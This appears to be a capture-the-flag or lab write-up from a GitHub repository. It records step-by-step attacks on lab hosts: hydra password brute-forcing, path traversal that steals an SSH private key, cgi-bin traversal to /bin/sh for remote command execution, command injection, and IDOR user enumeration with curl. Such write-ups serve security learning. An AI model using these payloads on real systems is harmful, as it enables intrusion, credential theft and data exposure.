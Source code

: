 
**Credential Attack III**
a.	Run hydra cmd to get credential: hydra -l commander -P /usr/share/john/password.lst portal.crimsonia.net http-get 
b.	Accessed website with credential exposed
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/d244741b-febf-4901-a6de-7d6e79165e31)
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/951b8391-dc76-41a3-91ed-d300a8715c4a)



## Web Attacks
Path Traversal
a.	Travelled through path to get to the backup id_rsa with cmd: http://10.110.28.61/?report=....//....//....//....//home/tom/backup/id_rsa 
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/e67d1cf7-6b39-46d2-a6fd-274d6cd5a1a7)

b.	Copied the private key and saved it to my machine: nano tom_id_rsa
c.	Changed the file to readonly by root user: chmod 400 tom_id_rsa 
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/19d9604f-47f5-4c5e-89a1-1d1c62b2ccc1)

d.	Logon to tom’s computer with ssh -i tom_id_rsa tom@10.110.28.61
e.	Got the flag with cat /home/tom/flag.txt  
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/3036599f-c399-4a8f-8423-c227540a5d1f)



**Path Traversal II**
Used the cmd to traverse the site to get the flag:
a.	curl -s --path-as-is -d "echo Content-Type: text/plain; echo; id" "http://10.110.28.93/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh"

b.	curl -s --path-as-is -d "echo Content-Type: text/plain; echo; cat /var/www/flag.txt" "http://10.110.28.93/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh"
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/65eba4cd-03ed-4f25-92aa-edb624ca5eab)

 

**Command Injection I**
Visited the site 10.110.28.34/traceroute
Used the cmd: 127.0.0.1 | cat /etc/flag.txt to get the flag
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/ba71d95f-bce5-4266-8533-98139414e211)


## WEB ATTACK II
**Insecure Direct Object Reference I**
Adding “/admin” to end of the unsecured url reveals the admin details and flag.
10.110.28.51/admin
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/d88288aa-291b-4a4c-be8c-6ea8ccbbbf0a)


**Insecure Direct Object Reference II**
Used the command to run curl in silent mode, while the variable increases its sequence from 1 to 100 replacing it with users id. Then using grep to capture the users’ messages
for i in $(seq 1 100); do curl -s 'http://10.110.28.52/' -H 'Content-Type: application/x-www-form-urlencoded' --data-raw "user_id=$i" | grep "User message" -A1; done
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/4023d08d-d729-471d-b88a-b840b23dc706)
